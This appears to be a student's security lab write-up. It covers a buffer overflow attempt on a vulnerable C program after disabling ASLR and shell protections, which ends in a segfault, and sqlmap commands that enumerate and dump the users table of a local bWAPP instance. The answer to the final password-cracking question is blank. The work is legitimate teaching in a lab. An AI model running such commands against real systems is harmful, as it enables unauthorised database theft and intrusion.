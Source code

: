 # Lab #1,22110023, Pham Nam Hao,  INSE340380E 03FIE
# Task 1: Software buffer overflow attack
 
**Make a vulnerable C program**
```
![image](https://github.com/user-attachments/assets/8ca1f13a-29bd-4294-b83f-9c14d50d23e7)
```
**Make a shell C program**
```
![image](https://github.com/user-attachments/assets/33a54957-a567-45aa-817e-e5703b5d7e04)
```
**Answer 1**:I choose Code Injection route.
- Compile both C programs and shellcode to executable code.
  + Turn off OS's address space layout randomization
    '''
    sudo sysctl -w kernel.randomize_va_space=0
    '''
  + Compile program with options to defeat stack protecting mechanism and code execution on stack:
    '''
    ![Screenshot 2024-10-23 100200](https://github.com/user-attachments/assets/7c5a6f2c-da29-442a-971c-91c4ac7f174c)
    '''
  + Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04:
    '''
    $> sudo ln -sf /bin/zsh /bin/sh
    '''
- Conducting the attack on labbof.out
  + Load vulnerable file into gdb
    '''
    gdb labbof.out -q
    '''
    ![image](https://github.com/user-attachments/assets/f1c372e7-ca85-4e5e-8f15-923c6f87b98e)
    '''
  + View assembly code to find return address and set a break point after strcpy function to overflow the buffer with python script
    '''
    (gdb) disas main
    (gdb) break *0x000011c2
    '''
    ![image](https://github.com/user-attachments/assets/1f27d9ed-e058-43cc-9437-06559b51d350)
    '''
  + Load shell C program into gdb and find esp address
    '''
    gdb atk.out -q
 
    (gdb) disas main 
    '''
    ![image](https://github.com/user-attachments/assets/83b461e5-e392-469e-afd6-a1b71ae0202d)
    '''

**Conclusion**: 
I tried to replace the esp address of shell program in a buffer padding but there's only segmentaion fault error
'''
./labbof.out $(python3 -c "print('A'*16 + '\x8d\x11\x00\x00' +'\xff\xff\xff\xff')")
'''
![image](https://github.com/user-attachments/assets/f7cb99b6-cf6c-42b4-9f17-9805d63d6ee1)
'''

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Set Up** 
- Download and set up bWapp, sqlmap
  '''
  docker pull raesene/bwapp

  docker run --rm -it -p 8025:80 raesene/bwapp
  '''
  ![image](https://github.com/user-attachments/assets/7bdc60ea-4ea3-4b4e-9088-07a7523adc3a)
  ![image](https://github.com/user-attachments/assets/cc2f8644-6510-4cc4-8414-9c6c114f0569)
  
  ![image](https://github.com/user-attachments/assets/f2c0a86c-0b57-4c6f-8467-d5a514608fe9)
  '''
  
- Local host set up successful
  '''
  ![image](https://github.com/user-attachments/assets/83e01643-e670-4a7e-8396-3bf1c5862fe4)
  '''

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

- Find the cookies by inspecting
  '''
  ![image](https://github.com/user-attachments/assets/e82eeae0-4507-4745-bb3b-4d7a69f04202)
  '''
- Get information about databases
  '''
  >python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" --dbs --cookie "PHPSESSID=buvohn13p4tdh6sbh7lea61686; security_level=0"
  '''
  ![image](https://github.com/user-attachments/assets/b0ea698e-9cc2-43e1-bb4e-06558a603506)
  '''

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
- Get tables
  '''
  python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP --tables --cookie "PHPSESSID=buvohn13p4tdh6sbh7lea61686; security_level=0"
  '''
  ![image](https://github.com/user-attachments/assets/2d14a455-622c-4bcd-9441-806acad15879)
  '''

- Get users information
  '''
   python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP -T users --dump --cookie "PHPSESSID=buvohn13p4tdh6sbh7lea61686; security_level=0"
  '''
  ![image](https://github.com/user-attachments/assets/ed172eb2-3fd3-4b09-85d7-f277ab6c8eb9)
  '''
  
**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
